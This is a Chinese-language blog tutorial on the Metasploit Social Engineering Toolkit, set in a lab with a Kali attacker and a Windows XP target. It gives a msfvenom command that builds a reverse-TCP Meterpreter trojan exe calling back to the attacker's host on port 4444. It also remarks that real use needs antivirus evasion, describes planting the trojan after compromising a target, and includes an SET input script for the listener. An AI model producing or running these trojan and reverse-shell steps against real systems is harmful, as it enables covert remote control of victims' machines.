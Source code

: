 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit之社会工程学工具包
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit之社会工程学工具包
lock: need
---
```


# Metasploit之社会工程学工具包

社会工程学工具包(Social Engineering Toolkit, SET)是一套基于Python语言的工具集合，主要面向对人进行的渗透测试。使用SET可以实现多种攻击，比如：网络钓鱼攻击、网页劫持攻击、格式文件攻击等。

这里，我们同样以一个实际案例来进行说明。

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

## 生成exe木马

```bash
msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.175.128 lport=4444  -f exe -o  shell.exe
```

注意：实际过程中，需要多exe木马进行免杀防护。

## 将木马上传到靶机

实际中，我们需要将靶机进行一系列的渗透之后，拿到靶机的系统权限，将木马上传或者下载到靶机。这里只是一个示例，我就直接将exe木马拷贝到靶机中了。

## 编写社会工程学脚本se-script

这里，我们将目录切换到Kali下的/usr/share/set目录下。

![img](https://img-blog.csdnimg.cn/2019012721093384.png)

在此目录下，创建脚本文件se-script，内容如下：

```bash
1
4
2
192.168.175.128
4444
yes
```

**注意：这个脚本的第一行为空行**
